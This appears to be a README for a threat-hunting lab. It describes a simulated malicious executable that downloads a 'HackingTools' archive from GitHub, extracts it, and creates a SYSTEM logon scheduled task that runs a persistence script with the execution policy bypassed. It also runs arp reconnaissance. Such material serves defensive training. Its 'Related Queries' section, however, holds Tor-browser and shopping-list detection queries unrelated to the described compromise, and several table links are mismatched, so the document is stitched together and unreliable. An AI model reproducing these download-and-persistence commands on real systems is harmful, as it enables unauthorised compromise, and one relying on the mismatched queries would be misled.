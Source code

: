 # Threat Event (System Compromise)
**Threat Actor Malicious File Download and Malicious File Execution**

### `MaliciousExecutable.exe` Creation and Purpose

The "malicious" executable used within the project was originally written as a PowerShell script and converted into an exectuable using `PS2EXE` (https://github.com/MScholtes/PS2EXE). The intention of the executable was to emulate possible actions a threat actor would undertake once inside a system. I wanted the the executable to perform several commands to populate the `Microsoft Defender for Endpoint` logs. To add another layer of realism to the project, I obfuscated the commands to "challenge" and test a threat hunter's knolwedge and resourcefulness. While there were other possible network reconnaissance techniques the executable could have performed, I chose a non-intrusive technique in attempt to not disrupt other devices and systems on the network. 


## Steps the Threat Actor Took to Create Logs and IoCs:
1. Several failed user logons in quick succession.
2. Opened a PowerShell terminal and executed the command `Invoke-WebRequest -Uri \"https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/MaliciousExecutable.exe\" -OutFile \"$env:USERPROFILE\\Downloads\\MaliciousExecutable.exe\"` to initiate the `MaliciousExecutable.exe` download.
3. Once `MaliciousExecutable.exe` was downloaded, the threat actor simply double-clicked the executable to run it. 
4. When executed, `MaliciousExecutable.exe` ran several encoded PowerShell commands to populate the EDR logs. These commands consisted of:

   - First Command: `Invoke-WebRequest -Uri "https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/HackingTools.zip" -OutFile "$env:USERPROFILE\Downloads\HackingTools.zip"`

   - Second Command: `Expand-Archive -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -DestinationPath "$env:USERPROFILE\Downloads\HackingTools" -Force`

   - Third Command: `Remove-Item -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -Force`

   - Fourth Command: `schtasks /create /tn "PersistenceScheduledTask" /tr "powershell.exe -ExecutionPolicy Bypass -File $env:USERPROFILE\Downloads\HackingTools\HackingTools\PersistenceScript.ps1" /sc onlogon /ru SYSTEM /f`

   - Fifth Command: `arp -a | Out-File -FilePath "$env:USERPROFILE\Desktop\arp_results.txt"`

The executable downloaded a zip file to the user's Downloads file, extracted the contents, and deleted the artifact created by the extraction process. The executable the created a scheduled task to mimic the actions a threat actor would perform to gain persistence on the system and conducted non-intrusive network reconnaissance.   

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect a high number of failed logon attempts on a system. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to gain a general overview of a system to observe if any malicious activity is occurring.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcesskEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any commands executed by either the threat actor or malicious files.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any network connections that could suggest possible file downloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any malicious file creation occurring on the system.|

---

## Related Queries:
```kql
// Installer name == tor-browser-windows-x86_64-portable-(version).exe
// Detect the installer being downloaded
DeviceFileEvents
| where FileName startswith "tor"

// TOR Browser being silently installed
// Take note of two spaces before the /S (I don't know why)
DeviceProcessEvents
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.0.1.exe  /S"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// TOR Browser or service was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("tor.exe", "firefox.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// TOR Browser or service was launched
DeviceProcessEvents
| where ProcessCommandLine has_any("tor.exe","firefox.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// TOR Browser or service is being used and is actively creating network connections
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("tor.exe", "firefox.exe")
| where RemotePort in (9001, 9030, 9040, 9050, 9051, 9150)
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// User shopping list was created and, changed, or deleted
DeviceFileEvents
| where FileName contains "shopping-list.txt"
```

---

## Created By:
- **Author Name**: Aaron Martinez
- **Author Contact**: https://www.linkedin.com/in/aaron-m-59725a332/
- **Date**: March 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `March  16, 2025`  | `Aaron Martinez`   
